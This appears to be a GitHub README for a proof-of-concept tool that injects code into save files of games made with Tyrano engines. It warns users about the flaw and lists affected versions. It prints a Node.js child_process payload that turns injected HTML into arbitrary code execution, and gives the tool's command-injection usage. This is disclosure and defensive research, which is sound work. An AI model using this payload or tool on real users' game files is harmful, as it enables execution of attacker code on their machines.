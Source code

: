 # TyranoKiller
👻 Code injection tool for Tyrano.  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

**⚠Do not use save files or game development data received from others!!!!⚠**  

The vulnerability was disclosed after 365 days of reporting to IPA and developers.  
I have also received a response that it is not a vulnerability.  
This PoC was created to alert users and investigate vulnerabilities in their own games, and is not to be used for attacks.  

## Vulnerability
All games created with the tools listed below have a vulnerability in the save data file.  
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.02  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScript <= 4.88)  
- (TyranoScriptV5 <= 5.11d)  

Attackers can use Node.js functionality from JavaScript by embedding HTML tags in save data files, allowing them to execute arbitrary code.
They can also do that using the game development data `index.html`.
The ability to inject into index.html is not included in this tool, but by previewing the game with the following code embedded, it becomes XSS to ACE.  
```html
<script>
require("child_process").exec("calc");
</script>
```

### Demo
![calc.gif](images/calc.gif)  
(Sample Game: https://tyrano.jp/)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
The default is to execute the `calc` command.
The code will only be injected into the first save data.  
